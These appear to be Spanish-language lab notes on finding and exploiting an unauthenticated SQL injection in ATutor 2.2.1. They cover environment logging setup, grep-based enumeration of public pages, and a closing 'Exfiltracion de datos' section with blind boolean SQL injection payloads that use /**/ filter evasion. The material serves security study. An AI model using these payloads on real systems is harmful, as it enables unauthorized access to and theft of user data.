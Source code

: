 ### Configuracion Atutor 2.2.1
- Descarga [https://sourceforge.net/projects/atutor/files/atutor_2_2_1/](https://sourceforge.net/projects/atutor/files/atutor_2_2_1/)

- POC: http://192.168.100.28/atutor/mods/_standard/social/index_public.php?q='

#### Configurando el entorno MYSQL LOG
```
student@atutor:~$ sudo nano /etc/mysql/my.cnf <> /etc/mysql/mariadb.conf.d/50-server.cnf
[mysqld]
general_log_file = /var/log/mysql/mysql.log 
general_log = 1

student@atutor:~$ sudo systemctl restart mysql

sudo tail –f /var/log/mysql/mysql.log
```

Añadir al archivo ```/etc/php5/apache2/php.ini```
```
[...]
display_errors = On 
[...]
```

Reinicar apache
```
student@atutor:~$ sudo systemctl restart apache2
```

----

Todas las páginas que no requieren autenticación contienen la siguiente línea en su código fuente  
```
$_user_location = 'public'; 
```

Enumerar todas las páginas a las que podíamos acceder sin autenticación  
```
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" -color
```

Después de pasar un tiempo haciéndolo, descubrimos un hallazgo potencialmente interesante. Miremos el código encontrado en ```/var/www/html/ATutor/mods/_standard/social/index_public.php``` 
```
14: $_user_location = 'public'; 15: 
16: define('AT_INCLUDE_PATH', '../../../include/'); 
17: require(AT_INCLUDE_PATH.'vitals.inc.php'); 
18: require_once(AT_SOCIAL_INCLUDE.'constants.inc.php'); 
19: require(AT_SOCIAL_INCLUDE.'friends.inc.php'); 
20: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyObject.class.php'); 
21: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyController.class.php'); 
```

 ```
 grep -rnw /var/www/html/ATutor -e "function searchFriends" --color
 ```

## PHP
- `isset`: Si tiene valor devuelve un **true**  
- `intval`: Obtiene el valor entero de una variable  
- `àddslashes`: Devuelve una cadena con barras invertidas añadidas antes de los caracteres que deben escaparse (',",\,NUL)  
- `continue`:se utiliza dentro de las estructuras iterativas para saltar el resto de la iteración actual del bucle y continuar la ejecución en la evaluación de la condición, para luego comenzar la siguiente iteración.

-----
## Exfiltracion de datos
```
> select/**/1;
> AAAA')/**/or/**/(select/**/1)=1%23 
> AAAA')/**/or/**/(select/**/1)=0%23
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%');\n;
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%');\n;
```


